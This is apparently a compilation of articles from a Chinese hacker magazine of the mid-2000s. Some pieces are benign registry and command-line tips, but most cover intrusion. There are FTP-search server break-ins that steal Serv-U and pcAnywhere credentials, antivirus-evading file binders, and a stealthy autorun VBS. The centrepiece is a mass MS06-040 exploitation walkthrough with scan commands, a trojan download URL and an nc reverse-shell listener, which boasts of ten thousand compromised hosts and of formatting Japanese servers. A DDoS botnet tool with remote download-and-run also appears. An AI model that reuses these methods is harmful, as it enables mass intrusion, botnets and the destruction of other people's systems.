在第八期中我给大家介绍了“目录浏览与 Google Hacking”。读过的朋友应该看到了有一个地方编辑是这样点评的：作者往往搜到一些开放了目录浏览的目录就停止介绍了，似乎存在该漏洞，入侵就手到擒来，服务器的最高权限就唾手可得。在一些读者看来未免觉得不过瘾。针对这个情况，我就继续深入地介绍这种攻击方法，算是对那篇文章的一个补充吧。

目录浏览漏洞的产生是由于服务器设置配置不当而导致的，利用 Google 来搜索出这样的网站，然后攻击。用过该技术的朋友应该就会发现，搜索到的很多网站权限最大的也就是把数据库下载下来，而对于服务器端的脚本文件是无法下载的，而且打开以后是空白，源代码也无法看到（图1、图2）。当然网站的体系结构也可以探测到，这对于我们得到 WebShell 来说是非常容易的，但是离最高权限还是有一定的距离。

而利用 FTP 搜索是直接进入服务器，上面的所有文件是可以下载的。

图4  
图1  
图2

搜索这样的服务器也需要关键字。在“目录浏览与 Google Hacking”处，已经介绍了怎样去构造关键字，不过在那篇文章中构造关键字的地方第一点需要去掉，因为第一点只适合目录浏览的情况。我们知道一般服务器会安装第三方软件，所以可以搜索第三方软件来查找特定的服务器。

比如数据库连接文件 `conn.asp`，一样可以得到非常多的服务器，一共有 1250 个结果（图5）。

图5

天网千帆 FTP 文件搜索引擎是由北京大学网络实验室为方便广大用户而开发的一个 FTP 文件搜索项目，网络地址是：http://www.mytianwang.cn 。利用该搜索引擎就可以找到大量提供 FTP 功能的网站（图3）。如果服务器不在线就会提示“离线”，而如果需要用户名及密码就会提示“需帐号”，快照一般来说是可以直接进入的，不过也有可能由于各种原因会登录失败。

| IP/地址 | 状态 |
|---|---|
| 60.191.2.231 | 快照 |
| 61.48.8.68 | 离线 |
| 61.48.42.219 | 离线 |
| 61.48.104.40 | 离线 |
| … | … |

图3

随便打开一个 IP 地址填进去，就进入了对方服务器（图4），而且这样搜索出来的服务器权限要比利用目录浏览搜索出来的网站大很多。

图6

可以搜索 pcAnywhere，如图6。在得到了安装 pcAnywhere 软件的服务器之后，就是去访问 `C:\Documents and Settings\All Users\Application Data` 下的 `.cif` 文件，把它下载下来就得到了管理员的密码了。我们还可以搜索 `Serv-U`（如图7），然后通过修改它的 `ServUDaemon.ini` 文件，给后加入有执行权限的用户，之后 FTP 连接上去提升权限即可。

利用 FTP 文件搜索引擎搜索得到的是服务器，而用 Google 搜索出来的是网站，所以 FTP 搜索权限要大得多。进入服务器之后，不仅可以查看运行在该服务器上的网站的任何东西，而且还可以得到其它的一些敏感信息。更为严重的是那些文件都可以下载，这样就可以不用得到 WebShell，而是直接进入服务器把第三方的敏感文件下载下来，然后连接该服务器就可以了。对于关键字的构造，和“目录浏览与 Google Hacking”一文中基本上没什么变化，按照自己的需要去构造就可以了。

---

### 将密码清除到底

Xboy@[H4ck]

无论是操作系统、浏览器还是办公软件，微软的产品一直是众多黑客的众矢之的。不久前 www.rixler.com 推出了几款软件，可以轻松地去除 Word、Excel、Outlook、Access 等文档的密码。

“要想去密码，Xboy 有办法”。首先介绍一下如何消除 Word 文档保护密码。我们可以使用 Word Password Recovery Master 程序来解忧。下载安装好后运行该程序，界面如图1所示。点击图中所标出的按钮来选择要去除密码的 Word 文档。选择完成后软件会显示一些关于该文档的保护信息。如果设置了打开密码，那么在 “Open password” 后面的文本框里就会提示。点击 “Remove” 清除密码的按钮，我们只要点击 Remove 按钮就可以消除该文档的密码了，如图2。  
不过要注意的是，在去除密码的过程中一定要确保网络连接正常，因为该软件在去除密码时会与 rixler 公司服务器连接。

当点击 Remove 按钮后，软件会提示将与 rixler 服务器连接，如图3。提示信息大概意思是：为了去除打开密码，软件将与 Rixler 服务器连接；为了找到破解密码，软件将该文档头部的几个字节发送给 Rixler 服务器。如果您使用了防火墙，请允许该程序访问网络；点击 “OK” 开始清除密码。

直到出现如图4所示的提示，说明密码已经清除完毕。一般只要几秒钟就可以将密码清除。在原来的 Word 文档目录下将生成一个“原文件名 + `(DEMO).doc`”的文件，该文件为清除密码后的文档，打开就可以看到被保护的内容了。记得以前破解 Office XP、Office 2003 中 Word 密码只有暴力破解这一招，现在就可以用 Word Password Recovery Master 以四两拨千斤的方法来轻松破解了。  
“密码轻松去，Xboy 有妙计”，下面介绍一下 Excel 密码的破解方法，方法与上面一样，这次使用 Excel Password Recovery Master 来搞定。

如图5，方法同上，基本类似，就不多说了。在破解过程中一定要确保计算机与网络相连。由于该软件只发送文件头部的几个字节信息，所以大家不用担心文档内容会泄露。还有其它几款软件分别是：Outlook Password Recovery Master、Access Password Recovery Master、VBA Password Recovery Master……更多相关信息大家可以查看 rixler 的官方网站：http://www.rixler.com/ 。

（文章中涉及到的工具 Office Password Remover.rar、vbpasrec.zip、wpasrec.zip，光盘中已收录）

---

### Google 快讯黑客爱

小马的篓子

刚放假回来就迫不及待地打开了电脑，一边登录 X 档案的论坛，一边和 MM 聊天，一边吃西瓜。在 Google 上搜索最新漏洞公告，找啊找、翻啊翻，一会儿两眼就酸酸的。这样漫无目的看资料，不符合马克思伯伯的教诲——做事情要有计划（人家是这么说的吗？）。无意间在 Google 上发现了一个没见过的东西：Google 快讯。

只需要任何一个邮箱就可以申请，还是很方便的，申请网址是：http://www.google.com/alerts?hl=zh-CN （图1）。对于我们菜鸟来说，最想要的是什么？那当然是最新的盗号工具、漏洞利用的方法、免杀木马、免杀加壳工具了呗。填入搜索关键字后选择类型，共有四个类型供大家选择：新闻、Web、新闻和 Web、论坛。  
在频率选项上，最好选择“出现新的结果时”这一选项，要是每天都给你发封信，你一定会发疯的。过多过滥的信息非我所要。俗话说得好，鱼和熊掌不可兼得。Google 还是挺勤快的，平均每几天就会来几封信。全世界最强大的搜索引擎为你服务，你还担心什么呢（图2）？

---

### 捆绑 VS 反捆绑

SuperSheep

现在的捆绑技术很流行，与之对应的反捆绑技术自然也很发达。那么，究竟哪个捆绑机、哪个捆绑检测器比较好用呢？我找了几个网上比较流行的工具作了一下比较。

#### 捆绑机

- 1. **SuperSheep 捆绑机[情人节版][免费版]（图1）**  
  这个捆绑机使用了随机加密密钥，合并后可以任意修改特征码或加壳，不影响程序运行，不会被 PE 扫描工具查出有任何附加数据，而且功能很全，是我最喜欢的捆绑机，附上刚刚做好的免杀版。

- 2. **EXE 捆绑机（图2、图3）**  
  这是蔬菜工作室出品的捆绑机，可以将两个可执行文件（EXE 文件）捆绑成一个文件，运行捆绑后的文件等于同时运行了两个文件。它会自动更改图标，使捆绑后的文件和捆绑前的文件图标一样，看不出变化，并且可以自动删除运行时导出的临时文件，提供了 VIP 个人版和普通版两种捆绑类型。

- 3. **filebind 病毒感染专版（图4）**  
  这个捆绑机与病毒工作方式类似，也是一款十分好用的捆绑机。

- 4. **Pcshare 内部捆绑机（图5）**  
  这是 Pcshare 的内部捆绑机，卡巴、江民等免杀，首次运行后能自动还原成宿主程序。

- 5. **百世纪绝捆绑机（图6）**  
  很豪华的捆绑器，一步江湖出品，功能也很全，非常好用，伪装能力不错。

- 6. **北极冰捆绑机（图7）**  
  很老的捆绑器，但也有它的优点，可以在捆绑后做免杀，使用非常方便。

- 7. **超级种植者（图8）**  
  它的捆绑方式很奇特，是在原程序中插入数据，附加一个文件增肥工具（图9）。  
  缺点是捆绑成功率较低，但一旦成功很难查出来（我用了另外两个程序作示范，实验证明：若在捆绑后使用北斗3.6加壳，躲过了所有检测器和卡巴斯基的查杀）！

- 8. **捆绑免杀工具 MicroJoiner（图10、图11）**  
  最近才找到的一款国外捆绑器，有很多个性的功能，免杀也比较容易做，只是汉化得不是很好，不过也能看懂。

- 9. **欺骗者4.0（图12）**  
  很不错的捆绑机，不同于其它捆绑机之处是它可以同时作为捆绑机和下载者使用，也就是说它可以把本地文件和服务器上的文件绑在一起，它也来自国外，这是汉化版。

- 10. **N.C.P.H 终结免查杀捆绑器（图13）**  
  最近很火的 N.C.P.H 系列工具之一，功能比较丰富，不过事实可没有它的名字那么厉害。

#### 捆绑检测器

- 1. **SuperSheep 反捆专家（图14）**  
  这个程序的检测水平较高，使用方便，可以提取捆绑数据，但有试用15次的限制，试用后如果你喜欢，按照说明注册即可。

- 2. **SuperCow 捆绑检测机（图15）**

- 3. **魔龙 EXE 捆绑检测工具（图16）**  
  邪恶人进化出品的捆绑检测机，有独特的安全运行功能，查捆绑能力也很不错。

- 4. **捆绑数据检测工具（图17）**  
  黑客小熊出的捆绑检测机，只是要注册，尽管没什么限制，但用起来总觉得不舒服（它总要我注册）。

- 5. **无忧捆绑文件探测器（图18）**  
  很简洁的反捆工具，性能也还不错。

- 6. **某成文件捆绑克星（图19）**  
  很早的反捆工具，也比较有名，提供了源代码，有兴趣的可以看看。

捆绑文件——SuperSheep 下载者（图20）；宿主文件——SuperSheep REG 优化工具（图21）。测试结果如图22、图23所示。通过对比我们可以发现，在捆绑机中，SuperSheep 捆绑机[情人节版]和 Pcshare 内部捆绑机逃过了所有检测器的检测，是比较优秀的。并且 SuperSheep 捆绑机[情人节版]合并后仍可以任意修改特征码或加壳，推荐使用。

在捆绑检测器中，整体检测水平都不太高，检测成功率最高的 SuperSheep 反捆专家，也只从 10 个中查到了 7 个。推荐使用多个捆绑检测器联合检测，这样才能尽可能保障你的系统安全。

| 检测工具 \ 样本 | ... |
|---|---|
| （图22内容：多工具对多个捆绑样本检测结果） | 成功/失败 |

（原图为结果矩阵表）

| 检测工具 \ 样本 | ... |
|---|---|
| （图23内容：补充检测结果） | 成功/失败 |

（原图为结果矩阵表）

---

## 巧修改注册表 让你的系统个性又安全

- 一、禁止 Windows 记录用户操作
- 二、彻底隐藏文件
- 三、在系统任务栏里加入名字

我们知道，当用户登录到 Windows 后，每一步操作几乎都会被 Windows 记录下来，这些信息包括运行过什么程序、访问过哪些文件等。如果你玩游戏的时候，不希望这些操作被记录下来，我们可以通过修改注册表来达到目的。通过在“开始”→“运行”栏中输入 `regedit` 来打开注册表，依次展开 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`，单击“编辑”→“新建”→“DWORD 值”，创建一个数值名为 `NoInstrumentation` 的键值数据项，将数值数据设为 `1`，表示禁止记录用户的操作；如果设置为 `0` 则表示记录用户的操作。

当你与家人或同事共用一台电脑时，你多多少少有一点不便让别人看见的东西。如果直接隐藏的话，一打开显示隐藏文件就什么都看见了。也可以通过修改注册表彻底隐藏文件。依次展开 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL`，将键值数据项 `CheckedValue` 的数值数据设为 `0` 就可以了，如图。

将名字放入任务栏里或放入别的个性字符是不是很有趣啊？我们可以依次展开 `HKEY_CURRENT_USER\Control Panel\International`，在注册表右侧窗口中找到并双击 `sTimeFormat`，在弹出的编辑字符串窗口中将值设置为“HH:mm:ss:tt”；双击 `s1159` 项，同样在弹出的编辑字符串窗口中将值设置为你的名字；找到并双击 `s2359` 项，将值也设置为你的名字。

#### 四、解决 IE 浏览器出错问题

有时在使用 IE6.0 浏览网页时会出现“Microsoft Internet Explorer 遇到问题需要关闭...”的提示，这时如果单击“关闭”或“不发送”按钮，会连当前的 IE 窗口一起关闭。可以先展开 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\Main`，单击“编辑”→“新建”→“DWORD 值”，创建一个数值名为 `IEWatsonEnabled`，双击该项并把数值数据设置为 `0`。


#### 五、解除鼠标右键禁用

在网吧中有很多管理员都把鼠标右键屏蔽了，怎么解除呢？可以在记事本中输入相关代码，保存为 `.reg` 扩展名并导入注册表即可。

## 突破 COOKIES 限制下载音乐

女友想要李丞丞未来的新专辑，音乐商店里没有卖，只好在网上下载并刻录 CD。虽然很快找到歌曲，但目标网站限制下载。定位到真实播放页地址后，抓包时发现数据似乎加密，于是转而从播放器页面源码入手。


通过扩展名可判断为 `.wma` 资源，但路径中无明显 `server` 字段。全文搜索无果后，在脚本文件中继续追踪，最终在 `PlayUrl_A.js` 中找到关键逻辑。

```javascript
if (top.location != location) top.location.href = location.href;
var i = 0;
var ms = Math.floor(Math.random() * 4 + 1);
if (ms == 1) server = "http://wma0.1ting.com/wmam/";
else if (ms == 2) server = "http://wma1.1ting.com/wmam/";
else if (ms == 3) server = "http://wma4.1ting.com/wmam/";
else server = "http://wma7.1ting.com/wmam/";
```


将保存后的本地网页与站点页面同时打开，可正常播放，从而锁定歌曲源地址（如 `http://wma7.1ting.com/wmam/.../1.wma`）。但直接下载仍报错，推测与 COOKIES 校验相关。随后在本地页加入超链接代码并右键“目标另存为”，最终下载成功。

```html
<a href="http://wma7.1ting.com/wmam/.../1.Wma">magicdog</a>
```

## 我的U盘，咋我的！


众所皆知，学校的电脑一般都会安装还原精灵，但通常只对系统 C 盘做保护，至于 D、E 盘则是自由空间……（正文左栏开篇段落）

原理是运用 MS06-007 远程拒绝服务漏洞……切入正题，笔者原先是用 `.bat` 批处理以及 `autorun.inf` 自播放文件……（正文左栏）


虽然可以加上“@echo off”语句进行内容屏蔽，但还是会出现 cmd 窗口……好在天公眷恋菜鸟，就是这把终极武器——VBS！

```vbscript
set ws = CreateObject("Wscript.Shell")
ws.Run "net stop sharedaccess", vbhide, true
ws.Run "\\windows.192.168.0.48.192.168.0.49", vbhide, true
```

192.168.0.48 你的 IP 地址，在 cmd 中输入 ipconfig 就能查看到本地 IP……把文档另存为 `.vbs` 形式，这里保存为 axy.vbs。

制造核心文件 Autorun.inf，一定要在 D 盘根目录下建立！其内容输入：

```ini
[Autorun]
Icon=
Shellexecute=axy.vbs
```

最后一定要把 Autorun.inf 文件设置成隐藏、只读属性……并在组策略中关闭自动播放（图2）……

由于安全起见把文件都放在隐藏地方……新建同名文件夹并重命名为特殊名称，后面加上特定代码（00020c01-0000-0000-c000-000000000046）……（正文右栏上部）


当然一双击就会自动播放三国恋……右键选择“打开”可正常进行文件操作，以假乱真。

对于 Autorun.inf 和 axy.vbs 文件相对也要做些改动……Shellexecute 改为带特殊路径的 axy.vbs……其余均不做改变（图4）。

经过一番修改，只要确保 Autorun.inf 在 D 盘根目录下，重启或注销系统后，双击 D 盘即可触发效果……（文末）

## 将机器变成暗器

前些日子很是无聊，拿出以前的《黑客X档案》，无意中看到一个关于隐藏的工具，看过后突然想到能不能有别的方法呢？想到自己一向很喜欢使用 CMD 下的东西，那么就从这里下手吧！想必大家手中都有不少工具吧，今天我们来把它们全部都做成暗器，把不想让别人看到的东西全部都给它“隐藏”起来。

我们以 Domain3.5 为例，它有两个文件，一个是主程序，一个是数据库，把 Domain3.5 放到一个很深的目录中，那些目录是别人不怎么去的，就放到哪里。再来到 `C:\WINDOWS\system32` 目录；如果是 WINDOWS2000 的话就是 `C:\WINNT\system32` 目录，右键新建一个快捷方式，如图1。


通过“浏览”按钮找到刚才存放 Domain3.5 的地方，选中 Domain 主程序，点下一步。给该快捷方式起个名称，一定记住不要把版本和 `.exe` 这两个加上去，免得以后在 CMD 中要输入很多，那就很麻烦了。我只输入了 Domain，点完成就 OK 了。我们再把这个快捷方式的属性设为隐藏，这样就更加安全了。去试试，打开 CMD，输入 Domain，怎么回事？出现了如图2所示的错误。呵呵，关键就在这里，输入的时候不仅要输入我们刚刚起的名字 Domain，还要在后面输入 `.lnk`（lnk 是快捷方式的扩展名），重新试试，这回出来了，如图3。


好了，我们现在将其它的工具也做成这样，以后就可以只在 CMD 中输入，而不用去找我们深藏的那个目录。在快捷方式上点右键，选“查找目标”，这样我们就可以快速进到那个存放工具的目录。其实这样不仅可以隐藏工具，只要是你不想让别人看到的东西都可以这样做的！

## ——快捷令黑纷

作为黑客技术爱好者，我们经常需要打开一些常用的程序，比如 CMD、NBSI 等等。也许大家都把它们通过快捷方式摆在桌面上以方便我们的使用了吧！不过，大家有没有想过，其实事情还可以更简单呢？在快捷方式上右键，选择“属性”，在“快捷键”单击一下鼠标，我们就可以设置了。比如这里我设置为 F2，以后需要使用 CMD 的时候只需要轻轻按下 F2 就搞定了，方便吧！


## 流氓软件的发现
### ——隐藏的程序自启动

我是孟星魂

最近开机的时候在任务管理器里总是有个 DuDu_HH 的程序一闪而过，大家都知道这是 DuDu 下载加速器的安装进程，一般都是捆绑在一些安装程序里的，和划词搜索、3721 一样也属于流氓软件。郁闷的是找不到这个软件自启动的地方，没设在“启动”目录里，也没在注册表里，使用注册表搜索软件连 DuDu_HH 这个字符串都找不到，组策略中也没有发现。查遍了系统中的 `autorun.inf` 和 `fold.htt`，还是一无所获。


忽然想起来，启动后看进程有时也会出现这个程序，特别是在玩大型硬盘游戏的时候。难道是在系统缓存里？因为我的电脑是禁止启动预读和程序预读的，这样可以减少启动时间。简单地说就是开机的时候除了硬件外什么也不检测，进入系统后再加载各种配置文件，就是读 `WINDOWS\Prefetch` 里的 pf 后缀文件。pf 后缀文件是程序运行后自动生成的，可以防止系统每次在程序启动后都要对程序进行配置，减少占用资源。可是清空 Prefetch 目录后启动还是有那个流氓进程。

我把能想到的地方都找了个遍，都没有发现可疑痕迹，看来还得借助于专业工具——autoruns 8.5。打开后看得眼都花了，没想到还有那么多能够自启动的地方。终于在“计划任务”项显示出了 DuDu_HH，如图1。

其实我原来也想到计划任务这个地方，不过却是在命令提示符下使用 at 命令查看的，只显示我自己添加的那几个项，都是设置在固定的时间运行。在命令提示符下建的计划任务是不能设置各种属性的，也就是说只能在你设定的时间运行。


而在 `windows\tasks` 目录中用“新建计划任务”建立的任务却是“幽灵任务”，因为没有任务 ID 号，不但 at 命令不显示，而且各种杀毒软件和启动检测软件都无法显示（除了 autoruns 8.5，8.5 以下版本也显示不出来），只有转到这个目录中才能看到。我还发现一点，就是这种计划任务是可以在命令提示符下进行操作的，比如使用复制 copy 命令和 attrib 隐藏命令，注意是 job 后缀，可以在自己机器上建好相应任务复制到对方机器上，再用 `attrib +h +s` 设置成“系统”加“隐藏”属性，避免了必须在对方机器上操作被发现的危险，如图2。更让我惊奇的是，就算对方停掉了 TASK 服务，只要有这种任务存在，就会自动启动计划任务运行，这回可以好好玩一下了。

任务存在，就会自动启动计划任务运行，这回可以好好玩一下了。

来说一下属性的设置方法，先选择一个想运行的程序，比如 netbox。在“任务”选项里有个“仅在登录后运行”的复选框，选中表示只有在系统用户登录的情况下才执行任务。“计划”选项里是设置启动时间，都是正常的功能。不过有个高级设置，可以选择“重复任务”，DuDu_HH 就是选中这个功能才不停运行的。“设置”里边有个“仅当计算机空闲时间超过”的选项，和屏保实现的功能是一样的。说到待机，我再提一点，想让一个程序运行要是实在想不到办法，可以替换系统默认的屏保，因为在无人操作的情况下，等待时间一到，屏保就会自动运行，这个办法也不算很实用，不过比替换系统的服务安全一点，如图3。

本文没什么技术含量，主要是说了一个新发现的开机启动的地方，希望小弟的这个发现对大家有所帮助。


图3

> （本文所涉及到的 autoruns8.5 已收录到光盘中）

## WINDOWS系统下实现LINUX命令

其实，很多和我一样的菜鸟都想亲身体会一下 LINUX 系统，但由于自己对 LINUX 系统安装方面的知识了解不是很多，对命令的使用也还不够熟练，因此始终无法接触 LINUX 世界。其实我们可以在 WINDOWS 下建立一个简单的 LINUX 命令练习平台。具体的步骤如下：

- 1. 建立一个支持 LINUX 命令运行环境的 CMD 文件，打开记事本输入以下内容：

```bat
...
@cls
@echo off
@color 2
@prompt WIN32CMD-linux[$p]
...
@doskey ls=dir $*
@doskey pwd=cd
@doskey mkdir=md $*
@doskey rmdir=rd $*
@doskey rm=del $*
@doskey mv=move $*
@doskey cp=copy $*
@doskey cat=type $*
@doskey clear=cls
...
@doskey vi=rename $*
@doskey id=whoami
@doskey w=quser
@cls
@echo on
```

保存为 linux.cmd 文件到 `system32` 目录（其它目录也可以）。


图1

- 2. 在 WINDOWS 下实现 LINUX 命令的练习平台。
- 3. 体验自己的设计。

打开“开始→运行”，输入 regedit，打开注册表编辑器，找到 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Command Processor`，将 autorun 的值更改为 linux.cmd 的路径即可。

打开“开始→运行”，输入 cmd，就会看到我们的练习平台了，执行几个命令试试（可以自行在批处理中添加对应的命令），如图2。


图2

> （本文所涉及到的 linux.cmd 已收录到光盘中）

### 一万台肉鸡无遗漏版的毒药


上个月公布的 MS06-040 漏洞，让我们小菜终于又有机会抓梦寐以求的肉鸡了。赶紧拿出 Metasploit Framework 和 MS06-040 Scanner 准备大干一场，可是扫了半天就扫到了两台（还有一台溢出了），看着自己那可怜的一台鸽子，手里拿的鸡腿都吃不下了！

咬一口鸡腿，仔细想想怎么这么难利用呢。网上一查原来利用的是 445 端口。这才明白，自从那几个“波”的病毒兴风作浪后，为了防止蠕虫的传播，ISP 都会做一些限制，而且对我们个人电信 ADSL 等的限制最多。所以基本上就扫不到 445 端口，仅仅可以扫到和你同 C 段的一些 IP。

明白了吧（快说正题！再说废话小心挨板砖、鸡蛋啊，无数个鸡蛋飞来！）好吧现在看我怎么抓鸡——借鸡生鸡大法。怎么叫借鸡生鸡呢？虽然 ISP 对我们个人用户限制很多，但是对一些特殊用户（比如很多服务商）却限制很少，我们可以凭借这些肉鸡，然后让它帮我们扫描有漏洞的机器，然后在肉鸡上进行溢出获得肉鸡。

先准备工具：肉鸡一台（没有找人借啊），S 扫描器、rpc.exe（MS06-040 溢出工具）、over.exe（批量溢出程序）。登录上 3389，打开命令行，运行 `s.exe syn 211.1.1.1 211.10.254.254 445 500 /save`，syn 表示使用 syn 方式扫描，这种方式速度很快，`/save` 为保存扫描结果。

最快的扫描器。过一会儿就扫出来好多开 445 端口的电脑，而且还是别的网段的（图1），已经把结果保存到 Result.txt 里面了，打开把里面的“445 open”替换为空（图2）。开始批量溢出了。命令格式为 `over.exe IP文件 "命令参数" 溢出程序.exe`，因此具体利用格式就是 `over.exe result.txt "http://www.musicool.com.cn/qq1.exe 1" rpc.exe`。

把里面的 http 地址换成你自己的木马地址。在无数个黑色窗口闪过以后（图3），我们就等肉鸡上线吧！哈哈（我得意的笑）……


图3


图1

现在再吃口鸡腿，感觉真香！如果你的肉鸡内存在 1G 之下别用批量溢出，会很容易挂掉。我看了看已经弄了多少台，扫到的 1000 多台电脑中就上线了 70 多台，还是挺不错的吧。这可全是服务器啊。还是小日本的。今天就拿他们泄泄气，叫小鬼子占我们钓鱼岛，连续几个 format，再弄几个硬盘炸弹上去，去死吧小日本！

有朋友说没有空间放马。那我们就批量获得 shell，利用的也是 MIKA 的工具 ms06040.exe，参数 `ms06040 210.149.40.0 218.5.76.8 8081 1`，依次为溢出程序、他的 IP、你的 IP、端口、溢出类型，用 nc 本地监听，`nc -l -v -p 8081`，溢出成功会返回一个 cmdshell。

```bat
@for /f %%i in (result.txt) do ms06040 %%i 218.5.1.1 ...
```


图2


图4

已的 IP 8081 1 保存为 `.bat`，用 S 扫描器扫一段 IP，如果你使用的是 WinXP 系统不能使用 syn 方式，则建议你用 `s tcp 210.*.*.* 210.*.*.* 445 512 /save`，把溢出程序、cmd.exe、批处理文件和扫描的 IP 文件放在同一目录下运行批处理文件，就等着返回的 shell 吧（——），如图4。

批量溢出危害巨大，几个晚上我就和朋友搞了上万台肉鸡，肉鸡多了居然也有烦恼，这几天经常叫肉鸡上线把自己给 DDOS 下线（—_—），如图5。

刚上 2000 多就已经卡了，都不敢开鸽子了，各位谨慎用啊。如果有什么问题欢迎去黑客X档案论坛讨论。

（文字中涉及到的工具 S 扫描器、rpc.exe、over.exe、ms06040.exe 已经收录于光盘中）


## 金装特南DDOS攻击工具


刚开学挺有时间的，于是就写了一个功能强大而且还可以远程控制的拒绝服务攻击工具，名字就叫金装特南 DDOS 攻击工具（界面是金色的哦）。

该工具集几种攻击方法于一身，有最经典最强大的 SYN 洪水攻击，普通的 TCP 洪水垃圾攻击，普通的 TCP 连续握手攻击，ICMP 洪水攻击等四种攻击方式。SYN 洪水攻击是前人的杰作，其它的几种则是我自己想出来写的。

最攻击强度与效果。此工具主要是用于攻击的，而控制功能只是方便用户而已。经过我多次测试，如果控制功能与攻击功能同时放在一个程序上，攻击的效果会明显降低，而且控制功能也不稳定。所以采用了三套设计，可以随时开始或停止攻击，达到随心所欲的效果。最后要说明的一点就是当被控主机开始攻

- 1、SYN 洪水攻击原理：该类资料很多也很经典。
- 2、TCP 洪水攻击原理：被控制主机与被攻击主机建立 TCP 正常连接，然后发送大量垃圾数据到被攻击的服务器上。
- 3、TCP 连续握手攻击原理：被控主机在非常短时间内与被攻击主机建立高次数甚至上千次正常的 TCP 握手连接并断开，重复执行。
- 4、ICMP 洪水攻击原理：向被攻击主机发送大量 ICMP 包（如 PING）。


金装特南 DDOS 攻击工具分为控制端和服务端两个部分，而服务端又由控制服务端和攻击服务端组成。所以整个攻击系统就由三个部分组成：控制端、服务端、攻击端。攻击端是内嵌在服务端里面的一个程序，实现攻击靠的是攻击端，而攻击端对用户来说是透明的。那为什么要这样设计呢？最主要的原因

### 傻瓜黑客

……攻击之后，由于消耗太大的宽带，所以可能会在控制端程序上出现掉线的现象，这个是正常的。可别诬蔑说我的程序不能用哦，我可经过了好多小时的测试的！

该工具的用法非常简单，运行控制端程序后会看到如图1所示的界面。

上面的基本信息显示的是系统与CPU、内存的信息。当有主机上线了，攻击该主机即可看到被控主机的基本信息。启动之后必须点击主题菜单，使控制端进入监听上线状态，如图2。

要行动起来我们必须要生成一个服务端，选择主题菜单上的“生成服务端”，会弹出生成服务端的界面，如图3所示。

攻击只要把要攻击的目标IP地址、目标主机开放的端口、攻击时间、使用多少台被控主机填上去，就能自动进行攻击了，无需人为地设置参数。通常我们应该尽量使用智能自动攻击，而少用手动设置攻击参数。

再来看一下手动攻击。选择主界面菜单里的“行动”->“手动攻击”，可以弹出如图5所示的界面。非常清楚，各位菜鸟只需要根据自己的需要进行设置就可以了。


上线地址是用于上线的（有点啰嗦），玩过灰鸽子、黑洞等远程控制软件的朋友们应该是非常熟悉的。我们可以生成两种不同的服务端：注册表级的服务端和服务级的服务端……服务名、服务显示名、服务描述这些都是用来迷惑杀软管理员的，伪装得越好越能保证你的服务端不被发现。填写完所有信息之后就可以生成你的服务端了。生成服务端的同时，程序会把定义的信息保存到 Config.ini 这个配置文件里，以供下次读取用。生成的服务端大小不到20K，小巧玲珑，非常适合挂马！在主题菜单上还有几个选项：“开始监听”用于监听上线的端口；“本地参数”是设置监听端口的。监听端口会自动保存在 Config.ini 文件里。主题菜单上还有个 FTP 更新，用于把自身IP更新到FTP空间，如图4。

然后是远程卸载，选择菜单中的“行动”->“远程卸载”，这个功能是把在线的所有被控主机卸载掉，包括自动删除服务端自身。而“远程下载”这个功能是额外加入的，相当于一个下载者功能，可以实现对所有的被控主机广播一个下载信息，命令被控主机下载某一个程序并运行。如果要对单个被控主机发送下载命令，可以点击主机列表上的指定主机，然后右键选择单个卸载和单个下载功能，如图6。


这个功能非常普通，不多说了，更新后程序也会把信息自动保存到 Config.ini 配置文件里。

我们来看一下主界面上的自动智能攻击。自动攻击是服务端自身进行判断用哪种攻击方式以达到最好的攻击效果。例如可以判断操作系统的版本进行不同方式的攻击。Win2000 和 WinXP 采用原始而又强大的 SYN 洪水攻击，而 WinXP SP2 和 Win2003 则采用普通的 TCP 和 ICMP 洪水攻击。因为 SYN 洪水攻击在 WinXP SP2 和 Win2003 下不起作用（根据我的测试）。智能攻击……

最后郑重声明：此软件具有比较大的危害性和威胁性，开发的主要目的还是用于研究学习之用。请大家切勿用于非法用途，否则后果自己承担，与作者无关。国庆节快到了，但是看起来小日本却还是很猖狂，不如……

（文字中涉及到的工具“金装特南DDoS攻击工具”已经收录于光盘中）


### 什么是4899

4899是指第三方远程控制软件 Radmin 的默认服务端口……因为这个软件的传输速度比大多数木马要快，而且不被杀毒软件所查杀，所以被黑客常用来当作木马使用……可以使用软件扫描网上存在 Radmin 空口令的电脑，然后把这些电脑作为自己的肉鸡。

### 对付杀毒后遗症的关联妙药

在电脑病毒“日新月异”的今天，经常杀毒是每一个电脑用户无奈的选择。可有时我们却会发现，经过漫长的查杀，病毒是没有了，可麻烦事也接踵而至。电脑提示文件丢失、极度不稳定、出现莫名其妙的故障……到底是什么原因引起的呢？其实，这都是因为杀毒造成的，因为现在的一些病毒往往会修改系统重要文件，而在杀毒过程中，杀毒软件会将包含有病毒进程的文件作为病毒全部清除掉，可想而知，Windows 缺少系统级文件会怎样！我们可以把上述系统故障统称为“杀毒后遗症”。那么该如何医治杀毒后遗症呢？

导致无法启动任何程序。查杀“冰河”后，双击任意一个 TXT 文档，系统就会弹出没有程序关联的提示。那么该如何修复被破坏的文件关联呢？

#### 一、找不到文件

杀毒完成后，进入系统，却提示某某文件丢失（图1），这时应根据不同情况做出不同的处理。

- 1. 第一种情况是病毒程序向注册表的自动加载项中加入了相关键值，而杀毒过程中清除了病毒程序，却没有删除掉注册表中的相关内容，从而启动机器后会提示文件丢失。对于这种假性的文件丢失，只需要在注册表的自动项将相关键值删除即可。  
  - `[HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows]` 下的 `Load` 键应为空。  
  - `[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon]` 下的 `shell` 键应为 `C:\Windows\explorer.exe`。  
  - `[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]` 中可按提示文件名定位并删除残留启动项。  
  - 还需注意开始菜单“启动”项及 `[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run]` 分支。

- 2. 第二种情况是病毒破坏了系统文件，而杀毒程序又删除了被病毒感染的系统文件，从而造成开机提示文件丢失。可根据提示记录文件名并从正常系统、安装光盘提取同名文件覆盖。若无法判断路径或丢失过多，可在“运行”中执行 `sfc /scannow`，由 Windows 文件保护进行扫描修复；若系统无法进入桌面，则在故障恢复控制台下使用 `Expand` 命令释放文件。


#### 二、文件关联错误

